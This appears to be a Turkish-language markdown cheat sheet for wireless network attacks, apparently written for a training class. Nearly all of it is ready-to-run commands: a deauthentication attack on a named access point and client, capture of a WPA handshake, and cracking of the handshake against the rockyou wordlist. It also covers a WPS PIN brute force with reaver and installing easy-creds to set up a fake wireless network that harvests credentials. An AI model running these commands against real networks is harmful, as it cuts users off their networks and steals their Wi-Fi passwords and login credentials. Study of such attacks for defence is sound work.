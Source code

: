# Wireless
`airmon-ng start wlan0 # monitor mode on wlan0`
`airodump-ng wlan0mon # kablosuz ağları keşfet`
Kablosuz Aga Ait Bilgileri Not Edelim
BSSID = F8:D1:11:40:D2:8E
ESSID = BGAsinif
Channel = 4

```
aireplay-ng --deauth 10 -a F8:D1:11:40:D2:8E -c 78:31:C1:C9:69:94 wlan0mon  # Deauth(Kablosuz ağdan düşürmek) Saldirisi
airodump-ng wlan0mon --bssid F8:D1:11:40:D2:8E --channel 4 -w /tmp/bgasinif # WPA/WPA2 Handshake Elde Etmek / Spesific Bir Kablosuz Agi Dinlemek
aircrack-ng /tmp/bgasinif-01.cap -w /usr/share/wordlists/rockyou.txt # WPA Parolasini Elde Etmek
# WPS Korumali Kablosuz Aglari Kirmak
wash -C -i mon0 # WPS Destekli cihazlari bulmak
reaver -vv -i wlan9mon -b F8:D1:11:40:D2:8E -c 1 -p 39956170 # WPS Pin numarasi denemek ve parolayi elde etmek
```


## Sahte Kablosuz Aglar
Kullanacagimiz script [easy-creds](http://sourceforge.net/projects/easy-creds/files/latest/download)
```
tar zxvf easy*
cd easy*
./install.sh
./easy-creds.sh
1
2
N
```

